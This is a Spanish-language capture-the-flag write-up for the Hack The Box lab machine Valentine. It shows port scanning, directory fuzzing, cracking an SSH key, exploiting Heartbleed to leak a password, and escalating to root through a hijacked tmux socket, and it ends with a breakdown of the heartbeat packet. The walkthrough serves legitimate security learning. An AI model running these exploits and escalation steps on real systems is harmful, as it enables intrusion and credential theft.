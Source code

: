 10.10.10.79 - Valentine

![Valentine](https://user-images.githubusercontent.com/96772264/200539654-bb1d344a-5494-413c-a468-bcbf9b5940a1.png)

--------------

## Part 1. Escaneo de puertos:

```console
└─$ nmap -sCV -T5 10.10.10.79 -Pn -v
Discovered open port 443/tcp on 10.10.10.79
Discovered open port 80/tcp on 10.10.10.79
Discovered open port 22/tcp on 10.10.10.79
22/tcp    open     ssh            OpenSSH 5.9p1 Debian 5ubuntu1.10
80/tcp    open     http           Apache httpd 2.2.22 ((Ubuntu))
443/tcp   open     ssl/http       Apache httpd 2.2.22 ((Ubuntu))
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Issuer: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
|_http-server-header: Apache/2.2.22 (Ubuntu)
└─$ whatweb http://10.10.10.79
http://10.10.10.79 [200 OK] Apache[2.2.22], HTTPServer[Ubuntu Linux][Apache/2.2.22 (Ubuntu)], IP[10.10.10.79], PHP[5.3.10-1ubuntu3.26], X-Powered-By[PHP/5.3.10-1ubuntu3.26]
└─$ whatweb https://10.10.10.79
https://10.10.10.79 [200 OK] Apache[2.2.22], HTTPServer[Ubuntu Linux][Apache/2.2.22 (Ubuntu)], IP[10.10.10.79], PHP[5.3.10-1ubuntu3.26], X-Powered-By[PHP/5.3.10-1ubuntu3.26]
```
La peticion por el puerto 443 da error, pero el escaneo reporta que la web se llama Valentine.htb, asi que se añade al /etc/hosts la linea
```10.10.10.79	valentine.htb```

-----------------------
## Part 2: Analizando la web

La web tiene una foto:
![Captura](https://user-images.githubusercontent.com/96772264/200539814-b265a913-3729-4f6c-a6d3-c16224df9d69.PNG)

```console
└─$ curl http://valentine.htb/omg.jpg -O 
└─$ exiftool ./omg.jpg
```
Los metadatos no dicen nada interesante.
Disponemos a hacer fuzzing:
```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.79/FUZZ/
000000001:   200        1 L      2 W        38 Ch       "index"   # -> Lo mismo que la web en sí.                
000000820:   301        9 L      28 W       308 Ch      "dev"                 
000023098:   200        27 L     54 W       554 Ch      "encode"                                             
000024229:   200        25 L     54 W       552 Ch      "decode"                                             
000029887:   200        619 L    5759 W     145482 Ch   "omg"     # -> la foto
```
Si hago fuzzing por extension php me sale tambien /index /decode y /encode. El fuzzing por subdominios no da resultados.

**/dev** nos da directory listing, hay dos archivos notes.txt y hype.key
Hype.key es un archivo en hexadecimal (un monton de bytes)
```console
└─$ cat hype.key | xxd -ps -r
```
Encontramos una llave privada (supongo que para hacer ssh).
/encode y /decode nos codifica texto en base 64, o sea hace el comando ```echo "input" | base64 -w0```, es decir le pasa comandos al sistema. 
Pero la prueba ```test; whoami``` no funciona.

![valentine2](https://user-images.githubusercontent.com/96772264/200540275-ceb473e0-5c78-4abb-8c58-1959c0da55dc.PNG)

La id_rsa le damos los permisos 
```console
└─$ chmod 600 ./id_rsa   
└─$ ssh -i id_rsa 10.10.10.79
Enter passphrase for key 'id_rsa': 
```
No tenemos la contraseña pero se pued intentar crackear la llave:
```console
└─$ python3 /usr/share/john/ssh2john.py id_rsa > hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
```
-----------------------
## Part 3: Heartbleed

Pero no obtenemos contraseña, tiramos de nmap para que nos busque vulnerabilidades.
```console
└─$ nmap -T5 10.10.10.79 -script vuln  
| ssl-heartbleed: VULNERABLE:
The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
State: VULNERABLE Risk factor: High
OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
```
Nos hablan de la vulnerabilidad HEARTBLEED 
```console
└─$ searchsploit -m multiple/remote/32764.py
└─$ python2 32764.py 10.10.10.79 -p443 | tee archivo.txt
```
Este exploit no me ha sacado nada interesante, pero he encontrado otro:
```https://github.com/mpgn/heartbleed-PoC```
```console
└─$ python2 heartbleed-exploit.py 10.10.10.79
Connecting...
Sending Client Hello...
 ... received message: type = 22, ver = 0302, length = 66
Handshake done...
Sending heartbeat request with length 4 :
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response in file out.txt
WARNING : server returned more data than it should - server is vulnerable!
└─$ cat out.txt | xxd -r
```
Nada interesante. Hay que ejecutarlo varias veces...
A la segunda vez nos leakea esto: ```$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg=``` Como la cadena son letras, 
numeros y un "=" suponemos que es base64
```console
└─$ echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg=" | base64  -d
heartbleedbelievethehype
```
Parece la contraseña de ssh, el asunto es que ha sido un base64 porque supongo que el creador de la ma quinahabra utilizado su porpia herramienta 
/decode para "cifrar" la contraseña.
Como la llave era hype_key, podemos entrar con ese usuario:

-----------------------
## Part 4: Entrando en el sistema

```console
└─$ ssh -i id_rsa hype@10.10.10.79;
```
La enumeracion con mi script dice que:
- No hay SUIDS criticos ni capabilities.  
- Este archivo .conf tiene permiso de escritura: ```/home/hype/.config/Trolltech.conf```  
- Ha hecho varios comandos de TMUX (socketfiles) como ```tmux -S /.devs/dev_sess```  
- En la ruta /var/www esta el codigo php de la web (decode, encode y demas)  

```console
hype@Valentine:~$ ls -la /.devs/dev_sess
srw-rw---- 1 root hype 0 Oct 10 23:23 /.devs/dev_sess
hype@Valentine:~$ export TERM=xterm
hype@Valentine:~$ export SHELL=bash
hype@Valentine:~$ tmux -S /.devs/dev_sess
```
Como el socket_file es de root (archivo que guarda una session en la consola Tmux) se puede reanudar,
teniendo esa consola de root. 

--------------------------------------------

## Extra: Heartbleed

"Corazon sangrante" es una vulnerabilidad que afecta a "OpenSSl 1.0.1 a 1.0.1f"    
Los Cetificados SSL están creados para encriptar las conexiones del protocolo https (por lo que la data que se envia se hace ilegible (encriptada)).    
Paralelamente a esta conexion esta el HEARTBEAT, un reconocimiento que hace el cliente con el servidor para decirle que la conexion sigue abierta: 
le dice una palabra y le pide que se la repita (y como esto no es confidencial no se encripta)    

han llamado "Latido de corazon" porque son dos golpes (pregunta-respuesta)    
Heartbeat normal (latido):     
```
cliente: "SI ESTAS AHI MANDAME LA PALABRA 'PATATA', (6letras)".
servidor: "PATATA"
```
El problema con Heartbleed esque le podemos decir que la respuesta sea mas larga que lo esperado.    

```
cliente: "SI ESTAS AHI MANDAME LA PALABRA 'PATATA', (600letras)".
servidor: "PATATA, pero como me has pedido 600 letras te contare muchas cosas interesantes más"```
```
Aqui se leakea los datos de la conexion https pero sin encriptar (ya que estos se guardan en la memoria y le hemos hecho sangrar esta misma con 
la respuesta MAS LARGA DE LO NORMAL)  
Leyendo el exploit, nos dice que una peticion HEARTBEAT es tal que asi:  
```
HEADERS:
18 -> Numero que indica que esto es un paquete Heartbeat
03 02 -> version TLS
00 03 -> tamaño (no se de que, supongo que la peticion?)
01 -> peticion de que nos hagan un heartbeat
40 00 -> tamaño de la respuesta que queremos (en decimal, paquetes de 16 384 bytes) 
PAYLOAD: "hello" # -> la palabra que nos tiene que repetir
```



